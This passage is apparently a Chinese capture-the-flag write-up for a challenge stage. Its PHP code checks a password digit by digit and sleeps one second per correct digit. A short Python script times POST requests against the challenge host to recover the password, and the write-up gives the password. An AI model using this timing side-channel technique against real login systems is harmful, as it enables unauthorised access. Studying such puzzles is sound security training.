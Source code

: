 进入第二层

```
<?php
show_source(__FILE__);
include 'secret.php';
if(isset($_POST['pass'])){
    $pass = $_POST['pass'];
    if(strlen($pass) != strlen($password)){
        die("Wrong Length!");
    }
    $isMatch = true;
    for($i = 0;$i < strlen($password); $i++){
        if($pass[$i] != $password[$i]){
            $isMatch = false;
            break;
        }
        sleep(1);
    }
    if($isMatch){
        echo "The final challenge in ".$key2;
    }
    else{
        echo "Wrong Pass!";
    }
}
//Only digital characters in the password.
```

就是猜数字，对每一位进行检查，如果正确就会停留一秒，这里可以写脚本也可以自己手注

```
import requests
import time
import random

url="http://challenge.wucup.cn:49820/Trapping2147483647.php"
passwd='56983215'
payload={"pass":passwd}
start=time.time()
req=requests.post(url,data=payload)
end=time.time()
print(req.text)
print(end-start)
```

最终得到的passwd就是56983215

![](./images/image-4.png)